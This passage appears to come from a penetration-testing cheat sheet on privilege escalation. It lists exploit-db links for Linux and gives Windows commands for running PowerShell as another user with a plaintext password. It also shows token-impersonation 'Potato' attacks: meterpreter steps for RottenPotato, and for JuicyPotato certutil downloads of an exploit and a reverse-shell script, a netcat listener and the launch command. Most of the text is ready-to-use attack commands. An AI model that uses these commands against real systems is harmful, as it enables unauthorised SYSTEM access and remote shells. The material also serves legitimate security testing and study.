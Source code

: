 * [www.securityfocus.com/bid/50192/discuss](https://www.securityfocus.com/bid/50192/discuss)

PAM MOTD:

* [www.exploit-db.com/exploits/14273](https://www.exploit-db.com/exploits/14273)
* [www.exploit-db.com/exploits/14339](https://www.exploit-db.com/exploits/14339)



### Windows


#### Powershell

Run as another user:

```
PS > $user = '<HOSTNAME>\<USERNAME>'
PS > $pass = ConvertTo-SecureString 'Passw0rd1!' -AsPlainText -Force
PS > $cred = New-Object System.Management.Automation.PSCredential($user, $pass)

PS > Invoke-Command -ComputerName <HOSTNAME> -ScriptBlock { whoami } -Credential $cred
Or
PS > $s = New-PSSession -ComputerName <HOSTNAME> -Credential $cred
PS > Invoke-Command -ScriptBlock { whoami } -Session $s
```


#### Potatoes

foxglovesec/RottenPotato **[1]**, **[2]**:

```
meterpreter > upload [3]
meterpreter > load incognito
meterpreter > execute -cH -f rottenpotato.exe
meterpreter > list_tokens -u
meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"
```

1. [github.com/foxglovesec/RottenPotato](https://github.com/foxglovesec/RottenPotato)
2. [foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/](https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/)
3. [github.com/foxglovesec/RottenPotato/raw/master/rottenpotato.exe](https://github.com/foxglovesec/RottenPotato/raw/master/rottenpotato.exe)

ohpe/juicy-potato **[1]**, **[2]**:

```
Cmd > certutil -urlcache -split -f http://127.0.0.1/[3] C:\Windows\System32\spool\drivers\color\j.exe
Cmd > certutil -urlcache -split -f http://127.0.0.1/rev.bat C:\Windows\System32\spool\drivers\color\rev.bat
root@kali:$ nc -lvnp 443
Cmd > j.exe -l 443 -p C:\Windows\System32\spool\drivers\color\rev.bat -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
```


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 spaces before)